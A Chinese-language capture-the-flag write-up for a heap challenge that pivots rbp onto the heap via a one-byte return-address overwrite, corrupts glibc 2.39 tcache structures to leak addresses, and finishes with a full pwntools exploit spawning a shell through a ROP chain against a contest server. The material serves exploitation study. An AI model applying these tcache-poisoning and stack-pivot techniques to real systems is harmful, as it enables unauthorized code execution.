

# heack

> Just came back again.

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.39-0ubuntu8.4|

## 解题思路

看上一题的flag，很明显非预期了，很快啊，revenge就端上来了。这次`fight_dragon`只能调用一次了，
而且严格限制了索引的范围，只能修改到返回地址，不能构造rop链了。第一眼看到的是`note_system`
里在`read`返回小于等于0时，只free没清空，可以UAF，但是经多种尝试无法实现。
其次让人在意的就是`game`中让人觉得奇怪的两个数字了。


乍一看作者在整烂活，搞两个数字只为异或出一个日期（20250712），还把 *Date* 写成了
*Data*，但是结合上一题flag的提示，不难发现其中存在一个`0x5d`，即`pop rbp`，
如果我们尝试从这里开始执行就会得到：


观察此时的rsp，如果我们已经分配过一个堆块，并且放在堆块数组`bufs`中的第0个，
那么`pop rbp`就会将这个 *chunk 0* 的地址pop给rbp，由于`game`函数访问数据是基于rbp的，
因此接下来game的操作会影响到`tcache_perthread_struct`。


经过计算，`bufs[0]`~`bufs[15]`对应了0x2e0~0x3d0的堆块的`tcache_entry`，
`[Combat Power]`对应了0x3f0的堆块的`tcache_entry`(`[HP]`和`[Attack]`未使用，可类推)，
如果我们释放对应大小的堆块，我们就可以通过view等方式访问堆块，
或者使用status等查看entry上放的值。

我这里首先分配并释放一个小堆块，使释放后的堆块正好被放入`bufs[0]`，
这样就可以使用view来泄露堆基址（当然，使其被放入`[HP]`等也是可以的）。

要想泄露libc则没这么简单，因为我们不能对释放后的块写入。于是可以借助提升hp、
提升攻击力这样的方式，借提高power的机会，修改tcache_entry。
先后分配chunk 2 (`0x3f0`)和chunk 3 (`>0x500`，稍后用来释放泄露libc)，2在3的低处，
然后将2释放使其进入`[Combat Power]`对应的entry，接着将指针抬高到chunk 3，
此时entry和chunk 3指向同一个地址。再申请chunk 5 (`0x3f0`) 后释放chunk 3，
这样我们就在保留对chunk 3的访问的情况下将其释放，进入unsorted bin。最后打印chunk
5就可以泄露。

由于我们已经劫持rbp到堆上，且`note_system`和`game`在返回时都会`leave; ret`，
不难想到，退出时会做栈迁移，可以在堆上打rop。有了以上的数据，我们就能构造链子，
最后的问题就是如何将链子写到最开始的chunk 0。由于提升hp、攻击力都是做加法，
因此我们必须伪造一个堆块，构成一条假的tcache链，使我们能分配到chunk 0。
首先分配chunk 6和chunk 7，然后释放，此时在entry上就会变成`7 -> 6 -> NULL`的链子，
我们预先在chunk 7上写上chunk 0的加密后的指针，这样在使用提升hp、攻击力后，
可以将entry变成`7+ -> 0 -> ?`的链子。此时连续分配两次，
我们就重新获得了对chunk 0的控制权限，可以写入rop链了。最后的最后，退出拿shell。

> [!IMPORTANT]
> 在设置chunk 7的时候，注意到我使用了`ljust(0x30, b'\0')`，之所以要多留一些字节，
> 最主要是因为在分配chunk后会`memset(chunk, 0, malloc_usable_size(chunk))`，
> 查阅`malloc_usable_size`的[源码](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L5234)，
> 当chunk没有mmap位，那么会检查它是否正在被使用。为了检查chunk是否正在被使用，
> 需要先提取出其大小，然后检查`chunk + sizeof(chunk)`处chunk的inuse位。
> 如果没有设置好chunk的大小，那么就会导致访问一个堆以外的chunk而引发`SIGSEGV`。
> 将size设置为0是最简单的办法，可以通过检查并使函数返回0。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './revenge'

def payload(lo: int) -> int:
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('1.95.34.119', 19999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.39-0ubuntu8.4_amd64/libc.so.6')

    def game_arbwrite(chain: bytes):
        t.sendlineafter(b'=== Hero', b'1')
        t.sendlineafter(b'[Battle]', p8(0x37).rjust(0x24, b'\0') + chain)

    def game_attack(): t.sendlineafter(b'=== Hero', b'2')
    def game_hp(): t.sendlineafter(b'=== Hero', b'3')
    def game_note(): t.sendlineafter(b'=== Hero', b'5')
    def game_exit(): t.sendlineafter(b'=== Hero', b'6')

    def note_write(idx: int, size: int, mem: bytes):
        t.sendlineafter(b'During your grueling', b'1')
        t.sendafter(b'index', str(idx).encode())
        t.sendafter(b'size', str(size).encode())
        t.sendafter(b'content', mem)

    def note_destroy(idx: int):
        t.sendlineafter(b'During your grueling', b'2')
        t.sendafter(b'index', str(idx).encode())

    def note_view(idx: int) -> bytes:
        t.sendlineafter(b'During your grueling', b'3')
        t.sendafter(b'index', str(idx).encode())
        t.recvuntil(b' ---\n')
        return t.recvuntil(b'\n-----------', True)

    def note_exit(): t.sendlineafter(b'During your grueling', b'4')

    # bufs[0]  <=> tcache(0x2e0)
    # bufs[15] <=> tcache(0x3d0)
    game_note()
    note_write(0, 7, b'pivot!')
    note_exit()
    # truncate   mov DWORD PTR [rbp-0x14],0x1f0f5d   @ 0x1867
    # to         pop rbp; nop DWORD PTR [rax]        @ 0x186a
    game_arbwrite(p8(0x6a))
    # now rbp == chunk 0
    game_note()

    def PTR_PROTECT(pos: int, ptr: int) -> int: return (pos >> 12) ^ ptr
    note_write(1, 0x2d7, b'shall not to conflict with 0x2e0 chunk')
    note_destroy(1) # now the freed chunk is put in bufs[0]
    heap_base = u64(note_view(0) + b'\0\0\0') << 12
    success(GOLD_TEXT(f'Leak heap_base: {heap_base:#x}'))

    note_write(2, 0x3e7, b'this will fall into [Combat Power]')
    note_write(3, 0x507, p64(PTR_PROTECT(heap_base + 0x980, 0)))
    note_write(4, 7, b'work as guard')
    note_destroy(2) # put chunk 2 in tcache entry
    note_exit()
    # add tcache entry by 0x3f0 (now pointing at chunk 3)
    for _ in range(3):
        game_hp()
    for _ in range(15):
        game_attack()

    game_note()
    note_write(5, 0x3e7, b'take the corrupted chunk 3 back to overlap')
    # now chunk 5 (0x3f0) == chunk 3 (0x510)
    note_destroy(3)
    libc_base = u64(note_view(5) + b'\0\0') - 96 - 0x203ac0 # main_arena
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    note_write(6, 0x3e7, b'padding chunk to construct a chain')
    # NOTE: to bypass malloc_usable_size, the fake chunk should have size 0
    # link tcache to chunk 0
    note_write(7, 0x3e7, b'hijacking tcache chain...'.ljust(0x30, b'\0') + \
                         p64(PTR_PROTECT(heap_base + 0xec0, heap_base + 0x2a0)))
    note_destroy(6)
    note_destroy(7)
    note_exit()
    # add tcache entry by 0x30 (now pointing at fake chunk)
    for _ in range(3):
        game_attack()
    game_note()

    gadgets = ROP(libc)
    rdi = gadgets.rdi.address
    rsi = gadgets.rsi.address
    rdx = libc_base + 0xb5db0 # xor edx, edx; mov eax, edx; ret
    shstr = next(libc.search(b'/bin/sh'))
    chain = flat(rdi, shstr, rsi, 0, rdx, libc.symbols['execve'])

    note_write(8, 0x3e7, b'this will write chunk 0 to tcache entry')
    note_write(9, 0x3e7, p64(0) + chain)
    note_exit()
    game_exit()
    # as we've already hijack rbp to chunk 0, leave 2 times set rsp to chunk 0
    # and then run our rop chain

    t.clean(0.5)
    t.interactive()
    t.close()
```


